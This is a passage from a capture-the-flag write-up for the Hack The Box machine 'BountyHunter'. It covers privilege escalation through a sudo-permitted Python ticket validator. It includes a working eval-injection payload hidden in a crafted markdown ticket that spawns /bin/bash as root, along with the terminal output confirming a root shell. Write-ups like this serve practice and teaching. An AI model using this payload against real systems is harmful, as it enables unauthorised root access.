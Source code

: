 We should also take a look and see if we can run the script as root.

```bash
sudo -l
```
```txt
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
We can see that we can run the `ticketValidator.py` script as root without a password. This is a potential privilege escalation vector. We can try to exploit the `eval` function in the script to execute arbitrary code as root.

To do this lets go into the `/opt/skytrain_inc/invalid_tickets` directory to see the format of the tickets. We can see that the tickets are in markdown format and have a specific structure. We can create a new ticket with a malicious payload that will be executed when the script is run.

```MD
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```
We will create the following malicious ticket in `/tmp`.

```MD
# Skytrain Inc
## Ticket to Mars
__Ticket Code:__
**179+ 25 == 204 and __import__('os').system('/bin/bash') == True
```
Now, lets see if we can run the script as root with our malicious ticket, and get a root shell.

```bash
development@bountyhunter:/tmp$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

Please enter the path to the ticket file.
/tmp/f.md
Destination: Mars
root@bountyhunter:/tmp# whoami
root

```
Yup! We were able to get a root shell by exploiting the `eval` function in the `ticketValidator.py` script. We can now read the root flag.

First writeup here. Hopefully more to come! I used the official HTB writeup as a reference for this box.